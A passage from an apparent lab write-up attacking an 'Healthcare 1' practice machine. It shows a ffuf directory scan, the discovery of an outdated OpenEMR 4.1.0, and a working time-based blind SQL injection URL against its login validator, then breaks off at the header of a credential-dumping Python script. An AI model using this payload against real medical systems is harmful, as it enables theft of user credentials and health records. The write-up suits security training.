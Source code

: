## 21 (FTP)

Anonymous access is not enabled and the server version isn't vulnerable to any known vulnerabilities.
We can look at this again when we have credentials.

## 80 (HTTP)

Accessing this on the browser, we only get a static site with not much functionality. 

{{< image src="/img/healthcare1/healthcare-2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

When we perform a directory bruteforce we get the following results:

```
ffuf -ic -c -u 'http://192.168.56.106/FUZZ' -e / -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -fc 403 | tee -a healthcare1.ffuf
```

{{< image src="/img/healthcare1/healthcare-1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

After checking the directories we have discovered, openemr returns an application. From their website:

> OpenEMR is the most popular open source electronic health records and medical practice management solution.

{{< image src="/img/healthcare1/healthcare-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This version of openemr is outdated. Searching for available vulnerabilities and exploits for this version using searchsploit,
we discover an sql injection vulnerability. 

{{< image src="/img/healthcare1/healthcare-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Unfortunately the PoC provided doesn't work. I found a better one from packetstormsecurity:

https://packetstormsecurity.com/files/108328/OpenEMR-4.1.0-SQL-Injection.html

The PoC provided shows a blind sql injection. The below payload causes the request to delay for about 5 seconds.

```
http://192.168.56.106/openemr/interface/login/validateUser.php?u='%2b(SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)%2b'
```

Using this, I was able to create a script to extract username and password hash of all existing users. Soon to be
submitted to exploit-db.

```py
#!/usr/bin/env python3

# Exploit Title: OpenEMR 4.1.0 - SQL Injection
# Date: 2021-04-03
# Exploit Author: Michael Ikua
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/refs/tags/v4_1_0.zip
# Version: 4.1.0
# Original Advisory: https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/

import requests
import string
import sys
```